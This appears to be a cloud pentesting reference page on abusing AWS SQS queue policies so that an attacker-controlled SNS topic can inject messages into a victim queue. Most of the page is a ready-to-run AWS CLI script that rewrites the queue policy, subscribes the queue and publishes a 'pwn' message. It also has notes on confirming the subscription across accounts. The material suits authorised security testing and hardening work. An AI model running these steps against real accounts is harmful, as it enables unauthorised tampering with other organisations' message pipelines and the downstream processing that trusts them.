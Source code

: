# AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

## Description

Abuse an SQS queue resource policy to allow an attacker-controlled SNS topic to publish messages into a victim SQS queue. In the same account, an SQS subscription to an SNS topic auto-confirms; in cross-account, you must read the SubscriptionConfirmation token from the queue and call ConfirmSubscription. This enables unsolicited message injection that downstream consumers may implicitly trust.

### Requirements
- Ability to modify the target SQS queue resource policy: `sqs:SetQueueAttributes` on the victim queue.
- Ability to create/publish to an SNS topic under attacker control: `sns:CreateTopic`, `sns:Publish`, and `sns:Subscribe` on the attacker account/topic.
- Cross-account only: temporary `sqs:ReceiveMessage` on the victim queue to read the confirmation token and call `sns:ConfirmSubscription`.

### Same-account exploitation

```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
  "Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```

### Cross-account notes
- The queue policy above must allow the foreign `TOPIC_ARN` (attacker account).
- Subscriptions won’t auto-confirm. Grant yourself temporary `sqs:ReceiveMessage` on the victim queue to read the `SubscriptionConfirmation` message and then call `sns confirm-subscription` with its `Token`.

### Impact
**Potential Impact**: Continuous unsolicited message injection into a trusted SQS queue via SNS, potentially triggering unintended processing, data pollution, or workflow abuse.

